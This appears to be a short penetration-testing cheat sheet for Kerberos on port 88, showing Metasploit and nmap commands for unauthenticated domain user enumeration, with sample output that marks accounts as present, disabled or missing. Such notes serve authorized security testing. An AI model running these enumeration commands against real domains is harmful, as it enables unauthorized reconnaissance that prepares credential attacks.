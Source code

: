 ```yaml
---
description: >-
  Kerberos is a computer-network authentication protocol that works on the basis
  of tickets to allow nodes communicating over a non-secure network to prove
  their identity to one another in a secure way.
---
```


# 88 - Kerberos

## User Enumeration

Enumerate valid Domain Users via Kerberos from a wholly unauthenticated perspective. It utilises the different responses returned by the service to identify users that exist within the target domain.

### Metasploit

Use `msf > use auxiliary/gather/kerberos_enumusers`

Example

```text
msf auxiliary(kerberos_enumusers) > set DOMAIN MYDOMAIN
DOMAIN => MYDOMAIN
msf auxiliary(kerberos_enumusers) > set RHOST 192.168.5.1
RHOST => 192.168.5.1
msf auxiliary(kerberos_enumusers) > set USER_FILE /job/users.txt
USER_FILE => /job/users.txt
msf auxiliary(kerberos_enumusers) > run

[*] Validating options...
[*] Using domain: MYDOMAIN...
[*] 192.168.5.1:88 - Testing User: "bob"...
[*] 192.168.5.1:88 - KDC_ERR_PREAUTH_REQUIRED - Additional
pre-authentication required
[+] 192.168.5.1:88 - User: "bob" is present
[*] 192.168.5.1:88 - Testing User: "alice"...
[*] 192.168.5.1:88 - KDC_ERR_PREAUTH_REQUIRED - Additional
pre-authentication required
[+] 192.168.5.1:88 - User: "alice" is present
[*] 192.168.5.1:88 - Testing User: "matt"...
[*] 192.168.5.1:88 - KDC_ERR_PREAUTH_REQUIRED - Additional
pre-authentication required
[+] 192.168.5.1:88 - User: "matt" is present
[*] 192.168.5.1:88 - Testing User: "guest"...
[*] 192.168.5.1:88 - KDC_ERR_CLIENT_REVOKED - Clients credentials have
been revoked
[-] 192.168.5.1:88 - User: "guest" account disabled or locked out
[*] 192.168.5.1:88 - Testing User: "admint"...
[*] 192.168.5.1:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in
Kerberos database
[*] 192.168.5.1:88 - User: "admint" does not exist
[*] 192.168.5.1:88 - Testing User: "admin"...
[*] 192.168.5.1:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in
Kerberos database
[*] 192.168.5.1:88 - User: "admin" does not exist
[*] 192.168.5.1:88 - Testing User: "administrator"...
[*] 192.168.5.1:88 - KDC_ERR_C_PRINCIPAL_UNKNOWN - Client not found in
Kerberos database
[*] 192.168.5.1:88 - User: "administrator" does not exist
[*] Auxiliary module execution completed
msf auxiliary(kerberos_enumusers) >
```

### Nmap

```text
Nmap –p 88 –script-args krb5-enum-users.realm=’[domain]’,userdb=[user list] [DC IP]
```


